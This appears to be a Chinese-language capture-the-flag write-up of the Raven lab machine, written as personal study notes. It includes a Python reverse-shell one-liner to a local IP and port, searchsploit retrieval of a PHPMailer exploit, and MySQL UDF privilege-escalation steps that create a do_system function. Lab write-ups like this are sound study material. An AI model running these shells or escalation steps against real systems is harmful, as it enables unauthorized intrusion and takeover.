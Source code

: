 #### 检查rwx权限

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.2.128',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);" > debianbts.py
```
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/9.PNG)

检查一下权限错误，虽然有rwx，但是是shared obj，不能插入命令。

---

#### PHPMailer命令执行
192.168.2.134/vendor/changelog.md
得到：Version 5.2.17 (December 9th 2016)

PHPMailer 6.0

```
searchsploit PHPMailer
searchsploit -m exploits/php/webapps/40974.py
http://192.168.2.134/vendor/class.phpmailer.php
```

现在有普通权限，web命令执行就算成功了也要提权啊。

---
[writeup](https://blog.techorganic.com/2018/11/08/raven-hacking-challenge/)

udf提权，以前做过udf提权，但时间仓促，没有深入理解。

## 如何安装UDF plugin
```
searchsploit mysql udf
searchsploit -m exploits/linux/local/1518.c
cat /root/1518.c
```
运行前查看代码是一个合格的渗透工程师应有的基本守则。

```
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/tmp/1518.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
 * mysql> create function do_system returns integer soname '1518.so';
 * mysql> select * from mysql.func;
```
接下来，用do_system反弹一个bash shell。

![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/10.PNG)

## 总结

参考资料：wooyun——MySQL和PostgreSQL数据库安全配置

有问题的地方：gcc参数的编译
```
gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
gcc编译链接命令有点不熟悉。以前只用过最简单的-o，以后再学下。

吃饭吃饭~~

